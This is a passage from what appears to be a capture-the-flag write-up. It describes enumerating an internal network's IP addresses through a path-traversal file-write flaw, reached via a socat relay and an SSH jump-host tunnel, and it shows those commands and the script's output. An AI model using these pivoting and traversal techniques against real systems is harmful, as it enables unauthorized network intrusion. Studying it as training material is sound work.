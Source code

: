 
so long as differentiating between these two error cases and the one success case is possible (by reading the output of `diagserver` it was), that is enough information to enumerate the directory structure of the server. Because I also know the network and cidr for the hosts I am looking for, that also makes the number of IP addresses that I need to iterate much more manageable.

I decided to go with a depth first search using `pwntools` `process` class to start and monitor a `socat` process:
```
socat tcp-listen:50505,reuseaddr,fork exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

set the jump server up again
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

and by using `requests.session` to share the session, I also avoided having to fully restart the `nonroot_user` ssh session too often (which would have taken avery long time to fully reconnect every time).
```
╰─$ ./enumerate_ips.py
[+] Starting local process '/usr/bin/socat': pid 2399544
[+] found a new octet, trying to guess .(100)
[+] found a new octet, trying to guess 100.(67)
[+] found a new octet, trying to guess 100.67.(25)
[+] wrote to path! ../../../../64/43/19/E7/a
[+] found a full IP 100.67.25.231
[*] Done trying to guess 100.67.25
[*] Done trying to guess 100.67
[+] found a new octet, trying to guess 100.(69)
[+] found a new octet, trying to guess 100.69.(183)
[+] wrote to path! ../../../../64/45/B7/38/a
[+] found a full IP 100.69.183.56
[*] Done trying to guess 100.69.183
[*] Done trying to guess 100.69
[*] Done trying to guess 100
[*] Done trying to guess
[+] found ip 100.67.25.231
[+] found ip 100.69.183.56
[*] Stopped process '/usr/bin/socat' (pid 2399544)
```

My solve script for this can be found in [enumerate_ips.py](enumerate_ips.py)

